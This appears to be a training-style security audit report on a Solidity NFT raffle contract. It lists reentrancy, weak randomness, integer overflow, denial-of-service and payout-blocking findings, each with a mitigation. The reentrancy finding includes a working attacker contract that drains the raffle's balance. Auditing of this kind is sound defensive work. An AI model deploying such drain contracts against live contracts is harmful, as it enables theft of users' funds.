 # Protocol Summary
Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

# Roles
Owner: The only one who can change the feeAddress, denominated by the _owner variable.
Fee User: The user who takes a cut of raffle entrance fees. Denominated by the feeAddress variable.
Raffle Entrant: Anyone who enters the raffle. Denominated by being in the `players` array.

# Executive Summary

Issues found

|Severity | Number of issues found|
|---|---|
|High|	3|
|Medium|	2|
|Info|	0|
|Total|	5|


# Findings

## High

### [H-1] `PuppyRaffle::refund` External function call before updating state, leaving room for a reentrancy attack.

**Description:** The refund function in the PuppyRaffle contract allows an attacker to exploit a reentrancy vulnerability. The external call to transfer funds (via refund()) is made before updating the contract's state, enabling an attacker to repeatedly call the refund function through a fallback mechanism, thereby draining the contract's balance.

**Impact:** High 

**Proof of Concept:**

If the starting balance of the attacker contract is 0 ETH and the starting contract balance is 4 ETH, after an attack by the ReentrencyAttacker contract, as seen below, the contract balance will be drained to zero:

- Ending attacker contract balance: 5 ETH
- Ending contract balance: 0 ETH

<details>
Please include the code below in the PuppyRaffle.t.sol
<summary>Proof of code</summary>

```javascript
contract ReentrencyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>


**Recommended Mitigation:**

- Use Reentrancy Guard: Consider implementing the ReentrancyGuard pattern to prevent multiple calls to the same function during the execution process.

- Checks-Effects-Interactions Pattern: Always follow the best practice of the checks-effects-interactions pattern, which involves checking conditions, updating state, and interacting with external contracts only after the state has been updated.


## [H-2] The Weak/Insecure Randomness in `PuppyRaffle::selectWinner` allows the user to include or predict the raffle  and/or winning puppy. 

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` produces random numbers and for the case of this raffle, it is considered Not Good.

*Note:* This means users can front-run this function and call ``refund` if they see they are not the winner 

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. This will make the entire raffle worthlesss if it becomes a gas war as to who win the raffle.

**Proof of Concept:**
1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use to predict when/how to participate. 
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner address.
3. Users can revert their `selectWinner` transaction if they don't like the winner ir resulting puppy.

**Recommended Mitigation:**

Consider using a cryptographically provable random number generator, i.e., Chainlink VRF.


        //@audit arithemethic overflow. Fixes includes, newer version of Solidity, bigger uints(s).


### [H-3] Interger overflow of `PuppyRaffle::totalFees` looses fees.

**Description:** Solidity version prior to `0.8.0` integers were subject to interger overflow.

```javascript
uint64 myVar = type(uint64).max

// myVar = 18446744073709551615
myVar = myVar + 1

// myVar will be zero
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `address` to collect in the `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees. This will cause a lot of fees to be stuck in the contract.

**Proof of Concept:**
1. We conclude a raffle of 4 players.
2. We then got 89 players to enter the new raffle.
3. `totalFees` + uint64(fees); will overflow.
4. You will not be able to withdraw due to the line in the `withdrawfees` function. Except in the case where a selfdestruct is initiated.

<details>
<summary>Code</summary>
</details>

**Recommended Mitigation:**
1. Use a newer version of solidity `(0.8.18)`.
2. Use uint256 instead of uint64 for the `totalFees`.
3. Tou could also use the `safeMath` library of Openzeppelin.
4. Remove the balance check from `PuppyRaffle::withdrawfees`

```diff
-        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

// there are more attack vector with that final require, so we recommend removing it.
```

## Medium

### [M-1] Looping through `players' array to check for duplicates in `PuppyRaffle::enterRaffle` is a Potential DOS attack.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, gas cost accumulates exponentially when new players make new checks. Every additional address in the `players` array is an additional check the loop will have to make.

**Impact:** The gas cost for Raffle rntrsnt will greately increase as more player enters the raffle. This will discourage later users from entering and causing a rush at the start of the raffle. 

An attacker might make the `PuppyRaffle::entrants` array to be so big, that no one else enters, saving the win stakes for themselves.

**Proof of Concept:**

If we have two sets of 100 players enter, the cost of gas will be such:

- the gas cost of the first 100 players: 6252128
- the gas cost of the Second 100 players: 18068218

this is more than 3X more expensive for the 2nd 100 players.

<details>
<summary>Proof of code</summary>

Include the following test into `PuppyRaffleTest.t.sol`

```javascript
 function testDosForEnterRaffleFunction () public {

        vm.txGasPrice(1);

        // Let's enter 100 players
        uint256 playerNum = 100;
        address [] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            players[i] = address(i);
        }
        
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);
        uint256 gasEnd = gasleft();


        uint256 gasUsedFirst = (gasStart - gasEnd)*tx.gasprice;
        console.log("gas cost of the first 100 players:", gasUsedFirst);


        // for the 2nd 100 players

      address [] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            playersTwo[i] = address(i + playerNum); // address 101, 102, 103...
        }
        
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();


        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond)*tx.gasprice;
        console.log("gas cost of the Second 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);


    }
```
</details>

**Recommended Mitigation:** Recommendations include;
- Consider allowing duplicates. Here, users can create unique wallets and enter the raffle multiple times.

- Consider using mapping to check for duplicates. This would allow a constant time lookup of whether a user has already entered.  


### [M-2] Smart Contract wallet raffle winners without a receive or a fallback will block the start of a new contest.


**Description:** The PuppyRaffle::selectWinner function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery will not be able to restart.

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The PuppyRaffle::selectWinner function could revert many times and make it very difficult to reset the lottery, preventing a new one from starting.

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The selectWinner function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

Do not allow smart contract wallet entrants (not recommended)
Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owners on the winner to claim their prize. (Recommended)
